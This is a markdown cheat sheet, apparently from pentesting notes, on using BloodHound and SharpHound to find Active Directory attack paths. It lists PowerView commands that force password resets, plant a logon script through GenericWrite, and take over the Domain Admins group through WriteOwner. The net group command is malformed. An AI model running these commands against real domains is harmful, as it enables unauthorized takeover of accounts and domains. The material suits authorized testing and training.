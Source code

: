 # BloodHound

> Discover paths to be domain admin.

> [!NOTE]  
> Mark user as owned > right click > mark.

## Installation

```shell
apt install neo4j bloodhound -y
neo4j console
bloodhound 2>/dev/null & disown
```

In the victim machine, import the module [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
Import-Module .\SharpHound.ps1
```

Collect info

```powershell
Import-BloodHound -CollectionMethod All
```

## Outbound Control Rights

### First Degree Object Control

#### ForceChangePassword

If the user as this object, it can change the password from an user. Import the module [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Import-Module .\PowerView.ps1
```

Force change of password

```powershell
Set-DomainUserPassword -Identity user -AccountPassword $SecPassword
```

#### GenericWrite

Import PowerView module

```powershell
Import-Module .\PowerView.ps1
```

Enumerate directory by a script autologon

```powershell
echo 'dir C:\Users\target\Desktop\ > C:\ProgramData\bh\output.txt' > test.ps1
```

Abuse object

```powershell
Set-DomainObject -Identity user -SET @{scriptpath='C:\ProgramData\bh\test.ps1'}
```

#### WriteOwner

```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity User
```

Grant all privileges

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity User
```

Add to the group Domain Admins

```powershell
net group "Domain Admins /add /domain"
```

Reconnect as the user
